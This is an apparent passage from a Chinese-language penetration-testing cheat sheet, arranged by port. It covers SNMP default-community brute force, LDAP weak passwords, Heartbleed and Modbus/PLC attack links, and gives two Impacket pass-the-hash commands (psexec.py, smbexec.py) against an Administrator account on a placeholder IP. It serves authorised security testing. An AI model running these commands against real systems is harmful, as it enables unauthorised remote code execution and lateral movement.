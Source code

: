 
## 161

`SNMP`

- [SNMP 相关](../协议安全/Protocol-Exploits.md#snmp)
    - 爆破,默认团体字符串"public"

---

## 389

`LDAP`

- [LDAP 相关](../协议安全/Protocol-Exploits.md#ldap)
    - 弱口令

---

## 443

`HTTPS`

- [SSL＆TLS 安全性测试](../协议安全/Protocol-Exploits.md#ssl)
    - 心脏出血

---

## 445

`smb`

**HASH 传递**
```bash
# Impacket
python3 psexec.py -hashes 0:xxxxxxxxcxxxxxxxxxxxxxx Administrator@192.168.xx.xx

python3 smbexec.py -hashes 00000000000000000000000000000000:xxxxxxxxcxxxxxxxxxxxxxx Administrator@192.168.xx.xx
```

---

## 502

`Modbus`

- [信息收集](./信息收集.md#工控资产)
- [PLC攻击](../../../Power-PenTest.md#plc攻击)

---

## 554/8554
